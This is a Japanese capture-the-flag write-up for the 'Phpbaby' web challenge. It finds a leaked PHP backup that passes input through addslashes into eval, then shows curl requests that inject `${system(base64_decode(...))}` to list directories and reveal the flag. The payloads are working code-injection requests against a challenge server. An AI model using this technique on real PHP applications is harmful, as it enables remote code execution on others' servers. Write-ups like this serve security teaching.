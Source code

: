 # Phpbaby:Web:pts
Get the flag located at the root filesystem  
[Click here](https://ch3.sbug.se/)  

# Solution
アクセスすると何やらAAが動いているサイトだ。  
[site.png](site/site.png)  
ソースを見ると不審な点はなく、以下のコメントがあるだけだった。  
```bash
$ curl https://ch3.sbug.se/
~~~
<!-- Access To Source Code Is Not Allowed! -->
~~~
```
手始めに`/robots.txt`を見ると以下であった。  
```bash
$ curl https://ch3.sbug.se/robots.txt
user-agent: *
disallow: /Source_Code_Backup
```
`/Source_Code_Backup`にアクセスしてみると、リダイレクトの後ソースに以下があった。  
```bash
$ curl https://ch3.sbug.se/Source_Code_Backup -L
~~~
<!--
// Source Code Backup:
$SBCTF=@(string)$_GET['SBCTF'];
filter($boycott, $SBCTF);
eval('$SBCTF="'.addslashes($SBCTF).'";');
-->
```
addslashesを突破するのは簡単で変数展開を用い`${system(ls)}`などやれば任意のコードが実行できる。  
文字列の扱いに困った場合はbase64などをかけてやればよい。  
```bash
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMg))\}'
<br />
<b>Warning</b>:  Use of undefined constant bHMg - assumed 'bHMg' (this will throw an Error in a future version of PHP) in <b>/var/www/html/index.php(15) : eval()'d code</b> on line <b>1</b><br />
SBCTF.png
Source_Code_Backup
abcs.png
index.php
lettercrap.css
lettercrap.js
robots.txt
~~~
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMgLi4v))\}'
~~~
html
~~~
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMgLi4vLi4v))\}'
~~~
backups
cache
lib
local
lock
log
mail
opt
run
spool
tmp
www
~~~
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMgLi4vLi4vLi4v))\}'
~~~
SBCTF{eval_93da83d498872a4028dac140d1574290}
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
~~~
```
ルートにflagをファイル名としたものがあった。  

## SBCTF{eval_93da83d498872a4028dac140d1574290}